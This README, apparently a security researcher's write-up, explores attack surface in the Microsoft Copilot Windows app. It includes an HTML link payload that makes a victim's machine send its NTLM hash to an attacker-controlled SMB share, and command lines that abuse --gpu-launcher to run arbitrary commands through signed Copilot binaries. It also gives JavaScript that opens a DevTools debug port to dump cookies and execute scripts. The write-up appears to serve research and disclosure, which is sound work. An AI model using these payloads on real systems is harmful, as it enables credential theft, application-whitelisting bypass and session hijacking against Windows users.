







# Tour-de-mscopilot

Post-ex techniques and attack surface exploration of the Microsoft Copilot app on Windows


## Copilot URI

The `ms-copilot` URI handler exists on modern Windows versions with copilot installed. I couldn't find much of anything about it online and it seems to be largely undocumented. The following are a few interesting parameters I found after some experimentation, decompilation of copilot-related DLLs, and ripgrepping around the filesystem for references to "ms-copilot".

Launch copilot:
```
ms-copilot:
```

Launch with a pre-filled query:
```
ms-copilot:chat?q=hi
```
(note this is pre-filled but not auto-submitted)

Launch with attached file and pre-filled query:
```
ms-copilot:chat?q=hi&file=c:\path\to\file
```

Launch with a specific chat mode:
```
ms-copilot:chat?q=hi&chatmode=search
ms-copilot:chat?q=hi&chatmode=study
```

Below shows one location (ProtocolConstants.cs) where URI parameters are defined in a copilot dll I decompiled, but this doesn't seem to be an exhaustive definition.



Copilot has changed its installation structure since I first started writing this and doesn't use the same copilot-specific DLLs, but this provided some useful insights that still apply.

Some other example copilot URI calls I found in various places, but haven't found an immediate use for:
```
ms-copilot:startup?ref=AppUpdateRestart
ms-copilot://gallery/?q=
ms-copilot:chat?visionFlyout=True&form=jumprightin
ms-copilot:startup
ms-copilot:push
ms-copilot://chat/?q=&form=WOLCEP
ms-copilot://login
ms-copilot://jumplist?launchsource=newpage
ms-copilot://jumplist?launchsource=pagelist
ms-copilot:settings
ms-copilot:hotkey?press=tap
ms-copilot:hotkey?press=start
ms-copilot:hotkey?press=stop
ms-copilot://companionWindow/?windowId={0}
ms-copilot:voice?floating=true&target=vision&form=COTBCO
ms-copilot:voice?floating=true&form=COTBCO
ms-copilot:voice?floating=true&target=vision&form=COTBLF
ms-copilot:chat?window=minimized
ms-copilot:chat?window=hidden
```
(the window options used to work but seem to be broken now as of writing this, same with some of the chatmode options)


## Credential Exposure via Copilot URI

The "file" parameter in the ms-copilot URI stood out to me when I first discovered it. One of the more impactful things you can do with this is coax an authentication request from a user by specifying a remote file share in the file parameter. There are quite a few ways to embed URI links, but a simple example is via html (think website or email):
```
<a href="ms-copilot://chat?file=\\<malicious IP>\share">click me</a>
```

When a user clicks the link, their NTLM(v2) hash can be captured by the server specified in the file parameter. The hash can then be cracked offline or used for further authentication spoofing or pivoting, depending on what kind of network the victim host is a member of. 

As of writing this, the following screenshot shows what a user sees when clicking on the link:



And the following shows the hash capture received by the external server hosting the fake file share (I used Responder on a Linux VM for testing this):



Similar NTLM stealing techniques via windows URIs exist. CVE-2026-33829 (which affects the snipping tool in Windows) has pretty similar mechanics to this one. I'm not really a bug bounty person, but out of curiosity I submitted the technique described above in a vulnerability report to MSRC. They responded after a few weeks that it was moderate severity (in particular because it required phishing a user to click a link, which is fair) and that it didn't meet their criteria for issuing a CVE or immediate fix. This is about the kind of response I expected, but it is interesting that they've issued CVEs for essentially the same vulnerability in other tools but not for this one (especially given the push to make AI-centric tools like copilot a core part of Windows going into the future).

NTLM authentication is gradually being phased out, but as long as it remains relevant this is a useful credential stealing technique for gaining initial access and pivoting within a Windows/AD environment.

## Proxy Command Execution

Copilot is an Electron application built on top of Edge (which itself is built on Chromium). Arbitrary commands can be executed using command line options when running the executable, which are potentially useful as a [living-off-the-land](https://lolbas-project.github.io/lolbas/Binaries/Msedge/) technique and for bypassing app whitelisting. Below are some examples.

Open cmd.exe:
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot.exe" --disable-gpu-sandbox --gpu-launcher="cmd.exe"
```
(In my testing, one cmd window will open upon invocation but a new one will open each time you close it. This happens ~5 times until both cmd and copilot both terminate)

Execute arbitrary commands (open the calculator app, for example):
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot.exe" --disable-gpu-sandbox --gpu-launcher="cmd /c calc &&"
```

The problem I encountered with the invocation above is that it seems to execute the command indefinitely until the parent copilot process is killed. We can get around that by adding a command to kill the copilot process after executing the first command we want to run via the following:
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot.exe" --disable-gpu-sandbox --gpu-launcher="cmd /c calc && taskkill /f /im mscopilot.exe &&"
```

Adding `--headless` or `--no-startup-window` makes it even faster and doesn't open any copilot window:
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot.exe" [--headless | --no-startup-window] --disable-gpu-sandbox --gpu-launcher="cmd /c calc && taskkill /f /im mscopilot.exe &&"
```

Copilot also has a proxy executable ([similar to the one for msedge](https://lolbas-project.github.io/lolbas/Binaries/msedge_proxy/)) which can be used to accomplish the same thing:
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot_proxy.exe" --no-startup-window --disable-gpu-sandbox --gpu-launcher="cmd /c calc && taskkill /f /im mscopilot.exe &&"
```

We can also run executables and execute arbitrary commands by invoking copilot through the URI handler (from a win+r run dialog):
```
ms-copilot: --disable-gpu-sandbox --gpu-launcher="cmd.exe"
ms-copilot: --disable-gpu-sandbox --gpu-launcher="cmd.exe /c calc && taskkill /f /im mscopilot.exe &&"
```

This could be dangerous if served as a link that someone clicks on, but the tricky part is URI's don't really support CLI-like parameters. Encoding spaces using `%20` or `+` will just result in the literal encoding being passed to the URI handler, rather than being interpreted as spaces between parameters. For example, the following html links get passed to the copilot URI with the literal delimiters in the href rather than being decoded in any way:
```
<a href="ms-copilot:%20--disable-gpu-sandbox%20--gpu-launcher='cmd.exe'>run1</a>
<a href="ms-copilot: --disable-gpu-sandbox --gpu-launcher='cmd.exe'">run2</a>
<a href="ms-copilot:+--disable-gpu-sandbox+--gpu-launcher='cmd.exe'">run3</a>
<a href="ms-copilot:,--disable-gpu-sandbox,--gpu-launcher='cmd.exe'">run4</a>
```
(in the second link, the spaces get URL encoded just like the first link)




I submitted the basic command execution techniques to the LOLBAS project and entries now exist for [mscopilot.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Mscopilot/) and [mscopilot_proxy.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Mscopilot_proxy/). Note that the local copilot app (as opposed to Copilot 365 cloud) doesn't seem to be installed by default on Windows as of writing this.

## Debug Port

The copilot app has the option to open a [Chrome DevTools Protocol (CDP)](https://chromedevtools.github.io/devtools-protocol/) debug port. This can be initiated via the mscopilot executable directly or through the URI:
```
"C:\Program Files (x86)\Microsoft\Copilot\Application\mscopilot.exe" --disable-gpu-sandbox --disable-web-security --remote-debugging-port=9222 --remote-debugging-address=0.0.0.0 --remote-allow-origins=*

ms-copilot: --disable-gpu-sandbox --disable-web-security --remote-debugging-port=9222 --remote-debugging-address=0.0.0.0 --remote-allow-origins=*
```
I was hoping the remote-debugging-address flag would let me expose the debug port on 0.0.0.0, but this option seems to be deprecated/ignored and the port is only exposed locally. I assume there is probably some way around this but didn't dig too heavily into it.

Opening the CDP debug port exposes a few http endpoints which provide JSON definitions of available websocket endpoints (shown at `localhost:9222/json`) and supported CDP methods (`localhost:9222/json/protocol`). We can connect to the debug websocket and interact with copilot via CDP calls using a websocket client or with raw javascript.

Dump cookies:
```
const ws = new WebSocket("ws://localhost:9222/devtools/page/xxx");

ws.onopen = () => {
    ws.send(JSON.stringify({
        id: 1,
        method: "Network.getAllCookies"
    }));
};

ws.onmessage = (event) => {
    console.log("Copilot:", JSON.parse(event.data));
};
```



Take a screenshot (returns base64 encoded PNG):
```
ws.send(JSON.stringify({
    id: 1,
    method: "Page.captureScreenshot",
    "params": { "format": "png" }
}));
```



Execute arbitrary javascript:
```
ws.send(JSON.stringify({
    id: 1,
    method: "Runtime.evaluate",
    params: { expression: "window.location.href = 'https://www.google.com'" }
}));
```

This let me splitscreen the copilot chat pane with a browser pane pointed google in the same window, which could be useful as a restricted browser bypass or kiosk-style breakout.


I'm not really a javascript person but there's certainly more you can do with this interface. These were just a few interesting actions I found. CDP interaction is one technique some modern info stealers use, and its interesting that copilot provides the same kind of attack surface as Chrome and Edge in this regard.

## Conclusion (...?)

Microsoft Copilot is a super recent addition to the Windows ecosystem. This writeup focused on the local Windows app (not Copilot 365 and not Github Copilot, which is an important distinction). As shown above, there are a variety of different attack surfaces the local app exposes, including:

- An undocumented URI handler with what  seems like interesting but (mostly) limited functionality (aside from the following bullet)
- A credential exposure vulnerability via the URI that allows for NTLM hash theft
- Living-off-the-land capabilities like command execution under Microsoft signed binaries (courtesy of being a Chromium app)
- Chrome DevTools Protocol (CDP) functionality, which allows for extensive tinkering of app internals and gives info stealers an extremely useful suite of tools

Copilot is currently being heavily pushed to be a core part of the Windows user experience as Microsoft's vision for an "AI"-centric productivity solution. This writeup didn't focus on any of the "AI" part of the copilot app because it barely exists-- the app itself is basically a wrapper for what feels like a neutered ChatGPT backend with limited Windows-specific functionality. For now, people who are leaning into using AI tools on Windows are using 3rd party apps, not copilot. However, the fact that copilot is actively being pushed to be a core part of the Windows experience, is undergoing continuous change, and will likely continue to increase its reach across the Windows ecosystem makes it an especially interesting attack surface. This was a high-level overview of some interesting things I found and there are a few avenues I went down which I haven't written about. I'm sure there are additional "features" I've either missed, overlooked, or other people have played with. As Microsoft extends the local agentic capabilities of copilot (from what I’ve seen this is beginning to happen with recent additions of things like “Copilot Tasks”) there will likely be plenty more to explore in the future.
